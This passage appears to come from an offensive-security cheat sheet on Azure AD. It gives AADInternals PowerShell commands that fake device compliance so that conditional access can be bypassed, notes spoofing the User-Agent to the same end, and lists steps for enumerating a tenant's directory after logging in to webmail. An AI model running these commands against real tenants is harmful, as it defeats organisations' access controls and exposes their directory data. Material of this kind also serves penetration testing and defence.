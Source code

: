 ## Conditional Access

* Bypassing conditional access by copying User-Agent (Chrome Dev Tool > Select iPad Pro, etc)
* Bypassing conditional access by faking device compliance
    ```powershell
    # AAD Internals - Making your device compliant
    # Get an access token for AAD join and save to cache
    Get-AADIntAccessTokenForAADJoin -SaveToCache
    # Join the device to Azure AD
    Join-AADIntDeviceToAzureAD -DeviceName "SixByFour" -DeviceType "Commodore" -OSVersion "C64"
    # Marking device compliant - option 1: Registering device to Intune
    # Get an access token for Intune MDM and save to cache (prompts for credentials)
    Get-AADIntAccessTokenForIntuneMDM -PfxFileName .\d03994c9-24f8-41ba-a156-1805998d6dc7.pfx -SaveToCache 
    # Join the device to Intune
    Join-AADIntDeviceToIntune -DeviceName "SixByFour"
    # Start the call back
    Start-AADIntDeviceIntuneCallback -PfxFileName .\d03994c9-24f8-41ba-a156-1805998d6dc7-MDM.pfx -DeviceName "SixByFour"
    ```


## Azure AD

With Microsoft, if you are using any cloud services (Office 365, Exchange Online, etc) with Active Directory (on-prem or in Azure) then an attacker is one credential away from being able to leak your entire Active Directory structure thanks to Azure AD.

1. Authenticate to your webmail portal (i.e. https://webmail.domain.com/)
2. Change your browser URL to: https://azure.microsoft.com/
3. Pick the account from the active sessions
4. Select Azure Active Directory and enjoy!

### Azure AD vs Active Directory

| Active Directory  | Azure AD  |
|---|---|
| LDAP  | REST API'S  |
| NTLM/Kerberos  | OAuth/SAML/OpenID |
| Structured directory (OU tree)  | Flat structure  |
| GPO  | No GPO's  |
| Super fine-tuned access controls  | Predefined roles |
| Domain/forest  | Tenant  |
| Trusts  | Guests  |

